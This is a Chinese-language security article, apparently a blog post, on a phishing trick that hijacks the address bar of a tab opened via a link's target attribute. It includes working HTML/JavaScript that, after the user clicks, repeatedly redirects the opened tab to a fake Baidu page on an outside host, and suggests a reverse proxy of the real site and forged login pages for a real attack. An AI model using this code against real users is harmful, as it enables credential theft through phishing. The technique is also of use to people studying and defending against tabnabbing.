 # 前端黑魔法之远程控制地址栏



## 原理

如果用户点击了超链接“click me”，这里会启动一个循环定时器，每过10秒钟，将会将超链接的地址更换成一个仿百度的钓鱼网站，并再次点击。（当然，如果是真实攻击的话，最好是做一个真实目标的反代服务器，这个在我另一篇文章《openresty+lua在反向代理服务中的玩法》中也有详细的介绍）

这里，超链接的target属性指定目标URL在哪个页面下打开，就是目标页面的window.name。如果这个a标签的href发生了变化，再次点击链接，页面仍然会在相同的标签页下打开，所以就覆盖了上一次打开的页面。

比如，我们是一个“网址导航”类型的恶意网站，用户在我们网站上打开了百度、淘宝等标签页面，我们将可以根据用户打开的超链接来生成钓鱼页面，伪造这些网站的登录页面，精准地进行钓鱼。我这里就不进行演示了。

本文所描述的攻击方式和opener的攻击方式比较相似，都是在不能跨域的情况下，控制目标标签页的URL，进而进行钓鱼攻击。

但我觉得这个攻击持久型更佳，因为即使用户在新标签中输入自己的域名，或者又通过超链接点击到其他网站里，这个页面的地址栏永远是受到源页面的控制的。理论上在源页面不关闭的情况下，可以永久控制新页面的地址栏。

## 利用

```html
<html>
<head><meta charset="utf-8"></head>
<body>
<a href="https://www.baidu.com" target="baidu" id="baidu" onclick="return start()">click me</a>

<script>
function start() {
	setInterval(function() {
        baidu.href="http://675ba661.2m1.pw/baidu";
        baidu.click();
    }, 10000);
}
</script>
</body>
</html>
```



## 附录

### setInterval()
setInterval() 方法可按照指定的周期（以毫秒计）来调用函数或计算表达式。'
setInterval() 方法会不停地调用函数，直到 clearInterval() 被调用或窗口被关闭。由 setInterval() 返回的 ID 值可用作 clearInterval() 方法的参数。


### window.name

name 属性可设置或返回存放窗口的名称的一个字符串。

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>菜鸟教程(runoob.com)</title>
<script>
var myWindow;
function openWin(){
	myWindow=window.open('','MsgWindow','width=200,height=100');
	myWindow.document.write("<p>窗口名称为: " + myWindow.name + "</p>");  //  这里则会显示MsgWindow
}
</script>
</head>
<body>

<input type="button" value="打开我的窗口" onclick="openWin()" />

</body>
</html>
```

window.name 的美妙之处：name 值在不同的页面（甚至不同域名）加载后依旧存在，并且可以支持非常长的 name 值（2MB）。




192.168.199.144




## 资料

前端黑魔法之远程控制地址栏

https://www.leavesongs.com/PENETRATION/use-target-to-spoof-fishing.html

使用 window.name 解决跨域问题

http://www.planabc.net/2008/09/01/window_name_transport/

window.name实现的跨域数据传输

http://www.cnblogs.com/rainman/archive/2011/02/21/1960044.html